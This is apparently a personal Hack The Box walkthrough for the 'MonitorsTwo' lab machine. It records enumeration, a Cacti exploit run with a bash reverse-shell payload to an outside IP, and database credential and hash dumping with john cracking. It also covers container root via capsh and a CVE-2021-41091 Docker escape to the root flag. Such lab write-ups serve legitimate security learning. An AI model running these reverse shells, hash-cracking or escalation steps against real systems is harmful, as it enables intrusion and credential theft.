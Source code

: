 #HackTheBox #linux 
# 1- enum
## nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Login to Cacti
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## gobuster
```
	/cache                (Status: 301) [Size: 313] [--> http://10.10.11.211/cache/]
	/docs                 (Status: 301) [Size: 312] [--> http://10.10.11.211/docs/]
	/images               (Status: 301) [Size: 314] [--> http://10.10.11.211/images/]
	/include              (Status: 301) [Size: 315] [--> http://10.10.11.211/include/]
	/index.php            (Status: 200) [Size: 13844]
	/install              (Status: 301) [Size: 315] [--> http://10.10.11.211/install/]
	/lib                  (Status: 301) [Size: 311] [--> http://10.10.11.211/lib/]
	/LICENSE              (Status: 200) [Size: 15171]
	/plugins              (Status: 301) [Size: 315] [--> http://10.10.11.211/plugins/]
	/resource             (Status: 301) [Size: 316] [--> http://10.10.11.211/resource/]
	/scripts              (Status: 301) [Size: 315] [--> http://10.10.11.211/scripts/]
	/service              (Status: 301) [Size: 315] [--> http://10.10.11.211/service/]
```

# exploit
┌──(root㉿kali)-[/home/kali/Desktop/HTB/monitorstwo]
└─# python3 cacti_exploit http://htb -c "bash -c 'bash -i >& /dev/tcp/10.10.16.30/1234 0>&1'"

# foothold on docker
[www-data@50bca5e748b0:/var/www/html$] cat README.md
```
for table in `mysql -e "SELECT TABLE_NAME FROM information_schema.TABLES WHERE table_schema='cacti' AND engine!='MEMORY'" cacti | grep -v TABLE_NAME`;
do 
   echo "Converting $table";
   mysql -e "ALTER TABLE $table ENGINE=InnoDB ROW_FORMAT=Dynamic CHARSET=utf8mb4" cacti;
done
```
```
	Good luck, and enjoy Cacti!

# Running Database Upgrade Script

sudo -u cacti php -q cli/upgrade_database.php --forcever='cat include/cacti_version'

```

# Find
[www-data@50bca5e748b0:/var/www/html$] cat user_admin.php | grep pass
```
SELECT password_history FROM user_auth WHERE id = ?
```


# PrivEsc 1
[bash-5.1$] /sbin/capsh --gid=0 --uid=0 --
```
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

[root@50bca5e748b0:/var/www/html#] find ./ -type f -name conf* 2>/dev/null
./include/fa/js/conflict-detection.js
./include/fa/js/conflict-detection.min.js
./include/fa/svgs/brands/confluence.svg
./include/config.php


[root@50bca5e748b0:/var/www/html#] cat include/config.php
```
/*
 * Make sure these values reflect your actual database/host/user/password
 */

$database_type     = 'mysql';
$database_default  = 'cacti';
$database_hostname = 'db';
$database_username = 'root';
$database_password = 'root';
$database_port     = '3306';
$database_retries  = 5;
$database_ssl      = false;
$database_ssl_key  = '';
$database_ssl_cert = '';
$database_ssl_ca   = '';
$database_persist  = false;
```


[root@50bca5e748b0:/var/www/html#] mysql -D cacti -h db -u root -p
```
MySQL [cacti]> select password,username from user_auth;                      
select password,username from user_auth;
+--------------------------------------------------------------+----------+
| password                                                     | username |
+--------------------------------------------------------------+----------+
| $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC | admin    |
| 43e9a4ab75570f5b                                             | guest    |
| $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C | marcus   |
+--------------------------------------------------------------+----------+
```

┌──(root㉿kali)-[/home/kali/Desktop/HTB/monitorstwo]
└─# john hash_marcus -wordlist=/usr/share/wordlists/rockyou.txt                 
```
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
funkymonkey      (?)  
```

## ssh creds 
[marcus:funkymonkey]

# LateralMouvement on host
## PrivEsc 
┌──(root㉿kali)-[/home/kali/Desktop/tools]
└─# ssh marcus@htb
```
╔══════════╣ Mails (limit 50)
     4721      4 -rw-r--r--   1 root     mail         1809 Oct 18  2021 /var/mail/marcus                                                                      
     4721      4 -rw-r--r--   1 root     mail         1809 Oct 18  2021 /var/spool/mail/marcus
```

[marcus@monitorstwo:~$] cat /var/mail/marcus
```
CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.
```

## Find
CVE-2021-41091 : https://github.com/UncleJ4ck/CVE-2021-41091/tree/main

## Exploit
[marcus@monitorstwo:/tmp$] cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

[marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$] ./bin/bash -p     

[bash-5.1#] cat /root/root.txt
	fadaf40fc018a3383a9facf2190b2615
